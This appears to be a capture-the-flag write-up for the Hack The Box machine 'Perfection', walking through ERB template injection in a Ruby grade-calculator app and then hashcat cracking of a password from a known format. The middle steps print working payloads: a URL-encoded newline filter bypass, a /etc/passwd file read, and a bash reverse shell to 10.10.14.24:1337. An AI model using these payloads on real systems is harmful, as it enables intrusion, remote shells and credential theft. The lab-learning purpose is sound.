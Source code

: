 # Perfection
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a25ccf1b-8041-48e5-9d09-020a945528ef)


## Lessons Learned:
- Exploiting WEBrick 1.7.0
- ERB and reverse shell using Ruby Code Execution.
- Identify potential passwords using hashcat (based on password format).

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.253 --min-rate 1000                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 20:39 PDT
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

1. Based from the nmap results above, the machine runs a web application at port 80 and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa0e65bb-d7f4-4cef-ac2a-6f97fb41f177)


2. Scrolling down to the footer section, we identified the web server used is **WEBrick** which is a RUBY library.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/deb7b11b-a64a-47b2-a6b1-44b2819fb424)


3. Searching on the internet about vulns found in **WEBrick 1.7.0** resulting to none.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/29519086-e07e-46de-aae0-af2cfb55c438)


4. Scanning for subdomain and directories also resulting to none. However our interest should be at the **weight grade calculation** feature.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e3e3123-8c34-4a6d-995e-0ecffda31a1c)


5. After sent normal input, seems it just calculate our grades normally. Nothing special at client-side.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2f3a453e-a418-47a1-90b7-9cff9ec31e83)


6. Tried to execute client-side attack, the webapp reflects us **Malicious Input Blocked**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/26e43bd2-e5a9-4a3a-8cf6-8e90ffccc596)


7. Let's use repeater for further testing.
8. The reflect message is caused because I input the malicious script/code at the **category** column.
9. This time I tried to send `;id ` but encode it with URL.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48782621-d8df-40c9-bce7-ecac7e8ee39c)


10. It's still blocked.
11. Let's try to send non-malicious URL encoded newline (\n) to test whether it executes encoded URL.

> Sending %0a

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a26e2d7d-7293-4982-866c-2a7258db9e99)


12. It executed, it's a finding then.
13. Great! Now our interest focused on finding the correct ruby command injection or SSTI payloads.
14. Long story short, found a repo which lists all the ruby code execution payloads.

#### NOTES:

```
I dropped all the useful links at the bottom of this MD file.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48adb320-33a2-449f-8675-753f5c0ee33c)

 
15. Nice, let's use the **read file** payload and encode it in URL format.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10119366-43a3-4657-8968-73a25330e3a1)


> pwn%0a<%25%3d+File.open('/etc/passwd').read+%25>

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9c88067-33a6-4ddf-bb80-ee4ee3dee672)



#### NOTES:

```
%0a is needed, because it acts as a delimiter.
```

16. Amazing! Let's try to do reverse shell so it's easier for us to get the user flag.
17. This time let's use the system() code execution payload.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85217040-bdf2-46d3-8b8f-ba80c927bbdb)


```txt
Bash Reverse Shell Payload:
bash -i >& /dev/tcp/10.10.14.24/1337 0>&1

Wrapped it with Ruby Code Execution Payload:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

URL ENCODE IT:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

FULL PAYLOAD:
pwn%0a<%25%3d+system("bash+-c+'exec+bash+-i+>%26+/dev/tcp/10.10.14.24/1337+0>%261'")+%25>
```

18. All we need to do now is set a listener on port 1337 then send the payload using repeater.

> RESULT - Got shell as Susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a38add66-1558-4a42-a107-6e53a39c4389)


> GETTING THE USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2fdd20de-cc5b-4577-a0e6-7cd3d12966f3)


## USER FLAG

```
69adddfe701657e656b754bc7b3801d5
```


19. Noticed there is a directory named **Migration**, inside it there's a DB file.
20. Let's exfiltrate it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/42b76616-2e24-4ece-be1c-57796d68e866)


21. In linux we can open it using **DB Browser**.
22. Found one table named **users**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/45d1b888-4f6f-472b-8d28-5b89ee6da68f)


> Found few creds inside it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7678f31-8e03-4568-b1e6-e25ad421ce93)


23. The simplest privesc is to crack the susan password's hash. However **john** and **hashcat** failed to crack it.
24. So I dropped linpeas to enumerate potential vuln that could lead to privesc.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d4734e0-37fe-4866-bb8c-7024ff50e240)


25. Interesting, Susan seems not part of any group listed.
26. After checking all the results, finally found what seems to be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1342053d-ac7f-4121-8814-9c3726b1af73)

> Inside /var/mail/susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0aac48f5-7ee1-4f83-891a-35f963b7591f)


27. GREAT! it's indeed our interest now.
28. Since it shows the password pattern, then we can use hashcat to helps us crack it.

```
The password format:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

9 integers between 1 - 1.000.000.000 --> 2 - 999.999.999

RESULT:
susan_nasus_?d?d?d?d?d?d?d?d?d
```

29. Let's use hashcat.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/340119a0-5482-4896-b085-923dbcd8aebd)


30. Since it's identified as SHA-256 we can use **-m 1400**.

```
COMMAND:
hashcat -m 1400 susan_hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

-m --> mode
-a --> aggresiveness.
```

> RESULT --> susan_nasus_413759210

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a83d3f4e-d997-43db-9483-89e2988ad5c9)


31. We are logged in as susan!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d15beca-a460-4d68-9d8d-f92007759a46)


> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7408524f-5211-4313-be86-c15d92aecaa2)


## ROOT FLAG

```
aa7afaa82e281910a726fd7ba1e0969a
```

## IMPORTANT LINKS

```
https://security.snyk.io/package/rubygems/webrick
https://portswigger.net/kb/issues/00100f00_ruby-code-injection
https://www.stackhawk.com/blog/command-injection-ruby/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
```
